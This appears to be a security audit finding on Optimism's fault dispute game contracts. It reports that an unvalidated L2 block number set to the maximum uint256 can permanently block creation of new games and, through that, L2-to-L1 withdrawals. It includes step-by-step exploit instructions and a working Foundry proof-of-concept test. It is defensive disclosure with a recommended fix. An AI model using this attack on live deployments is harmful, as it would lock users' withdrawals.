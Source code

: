 Thankful Myrtle Seal

high

# Malicious users can brick FaultDisputeGame deployments

## Summary
The DisputeGameFactory allows the deployment of new fault dispute games through the the```create()``` function. A lack of user input validation when deploying a new game allows a malicious user to attach almost arbitrary```L2BlockNumber``` values to root claims. When the game is completed and the root claim is validated as correct, the anchor state is updated with this value as the new anchor root, and the anchor block number is set to ```L2BlockNumber```. Since this value is expected to only increase, a malicious user can simply attach a ```type(uint256).max``` value  to a valid root and update the anchor block number to this value. This will result in the factory reverting every time it tries to deploy a new game.
## Vulnerability Detail
The ```DisputeGameFactory``` contract allows the creation of dispute games through the ```create``` function. Note the ```_extraData``` parameter is the ```L2BlockNumber``` data that is passed to the dispute game clone where its used as an immutable arg and accessed with the ```L2BlockNumber()``` function. There is no input validation for this value.
```solidity
    function create(
        GameType _gameType,
        Claim _rootClaim, //specific root we are challenging
        bytes calldata _extraData //init data
    ) external payable returns (IDisputeGame proxy_) {
...
        // Clone the implementation contract and initialize it with the given parameters.
@>      proxy_ = IDisputeGame(address(impl).clone(abi.encodePacked(_rootClaim, parentHash, _extraData)));
        proxy_.initialize{ value: msg.value }();
```
Inside the initialize function, the ```L2BlockNumber()``` value is compared with the previous anchor root L2 block number and the function reverts if its value is less. If this games claim is determined to be valid then the anchor root block number will be updated to the ```L2BlockNumber()``` value. The implication here is that the newly updated anchor L2 block numbers must be perpetually increasing. This is relevant for the exploit.
```solidity
    function initialize() public payable virtual {
        if (initialized) revert AlreadyInitialized();
@>      (Hash root, uint256 rootBlockNumber) = ANCHOR_STATE_REGISTRY.anchors(GAME_TYPE);
        if (root.raw() == bytes32(0)) revert AnchorRootNotFound();
        startingOutputRoot = OutputRoot({ l2BlockNumber: rootBlockNumber, root: root });
@>      if (l2BlockNumber() <= rootBlockNumber) revert UnexpectedRootClaim(rootClaim());

```
We see here when the valid root Claim is resolved, it updates the anchor registry's L2 block number value.
```solidity
contract FaultDisputeGame is IFaultDisputeGame, Clone, ISemver {
    function resolve() external returns (GameStatus status_) {
...
@>      ANCHOR_STATE_REGISTRY.tryUpdateAnchorState();
    }

contract AnchorStateRegistry is Initializable, IAnchorStateRegistry, ISemver {
    function tryUpdateAnchorState() external {
...
        // No need to update anything if the anchor state is already newer.
        if (game.l2BlockNumber() <= anchors[gameType].l2BlockNumber) {
            return;
        }
...
@>      anchors[gameType] = OutputRoot({ l2BlockNumber: game.l2BlockNumber(), root: Hash.wrap(game.rootClaim().raw()) });
```
A malicious user can exploit this as follows:
1. Create a game with a valid claim and L2BlockNumber of  ```type(uint256).max``` 
2. When the claim is validated and the anchor registry is updated, the anchor block number will be replaced with ```type(uint256).max```
3. Every call to create a new game will now revert since they cant have a higher L2BlockNumber than ```type(uint256).max```
## Proof Of Concept
Place the following test inside ```FaultDisputeGame.t.sol```
```solidity
    function test_anchorStateDOS() public {
        //get any valid root claim
        Claim rootClaim = gameProxy.rootClaim();

        //set the l2BlockNumber to max uint256 value
        uint256 l2BlockNumber = type(uint256).max;
        extraData = abi.encode(l2BlockNumber);

        // Deploy an implementation of the fault game with the new l2BlockNumber at the max value
        gameProxy = FaultDisputeGame(payable(address(disputeGameFactory.create(GAME_TYPE, rootClaim, extraData))));

        // Resolve the game.
        vm.warp(block.timestamp + 3 days + 12 hours + 1 seconds);
        gameProxy.resolveClaim(0);
        assertEq(uint8(gameProxy.resolve()), uint8(GameStatus.DEFENDER_WINS));

        // Confirm that the anchor state is now the same as the game state.
        (Hash root, uint256 l2BlockNumberAfter) = anchorStateRegistry.anchors(gameProxy.gameType());
        assertEq(l2BlockNumberAfter, gameProxy.l2BlockNumber());
        assertEq(root.raw(), gameProxy.rootClaim().raw());
        
        //this should now fail to create a new game and emit the UnexpectedRootClaim error message 
        //for all values of L2BlockNumber
        vm.expectRevert(abi.encodeWithSelector(UnexpectedRootClaim.selector, rootClaim.raw()));
        disputeGameFactory.create(GAME_TYPE, rootClaim, extraData);
    }
```
## Impact
All dispute game functionality will be DoS'd resulting in users being unable to withdraw from L2->L1
```solidity
    function proveWithdrawalTransaction(
        Types.WithdrawalTransaction memory _tx,
        uint256 _disputeGameIndex,
        Types.OutputRootProof calldata _outputRootProof,
        bytes[] calldata _withdrawalProof
    ) external whenNotPaused {
        require(_tx.target != address(this), "OptimismPortal: you cannot send messages to the portal contract");

        (GameType gameType,, IDisputeGame gameProxy) = disputeGameFactory.gameAtIndex(_disputeGameIndex);
@>      Claim outputRoot = gameProxy.rootClaim();
```

## Code Snippet
https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L539
https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/DisputeGameFactory.sol#L87
https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/DisputeGameFactory.sol#L106
https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/AnchorStateRegistry.sol#L76
## Tool used

Manual Review

## Recommendation
For a temporary solution, there needs to be a verification mechanism on the range of L2 block numbers that users can pass. A more comprehensive solution would require the block number to be validated with the root claim.